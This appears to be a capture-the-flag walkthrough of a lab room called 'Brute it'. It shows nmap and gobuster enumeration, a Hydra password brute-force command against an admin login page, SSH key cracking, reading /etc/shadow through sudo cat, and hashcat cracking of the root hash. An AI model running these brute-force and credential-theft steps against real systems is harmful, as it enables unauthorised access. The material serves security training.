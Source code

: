 # room/Brute-it

# Enumeration

## Nmap Scan

```sh
sudo nmap -sV -sC -T4 -vv -oG nmap 10.10.56.43ORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```sh
ORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## Directory Discovery

```sh
gobuster dir -u 10.10.56.43/admin -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -o dirbuster.txt -x php,txt,html -q
```

```sh
/index.php            (Status: 200) [Size: 671]
/panel                (Status: 301) [Size: 316] [--> http://10.10.56.43/admin/panel/]
```

## Checking the website!

![****](/Screenshots/Brute-it/web.png)

Checking the source code! we see

```js
<!-- Hey john, if you do not remember, the username is admin -->
```

Let try to brute force the login page with Hydra

```sh
udo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.56.43 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" 
```

![****](/Screenshots/Brute-it/hydra.png)

Let Login!


![****](/Screenshots/Brute-it/admin.png)

## SSH

Now we got the Private key, it's the time for SSH!

Let crack ```id_rea``` to get the password!

![****](/Screenshots/Brute-it/password.png)

![****](/Screenshots/Brute-it/user.png)

## Privledge Escalation

It seems we can run cat as sudo! let read /etc/shadow

We got now root hash! let crack it using hashcat

![****](/Screenshots/Brute-it/etc.png)

```sh
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
```

![****](/Screenshots/Brute-it/hashcat.png)

![****](/Screenshots/Brute-it/root.png)

Thank you!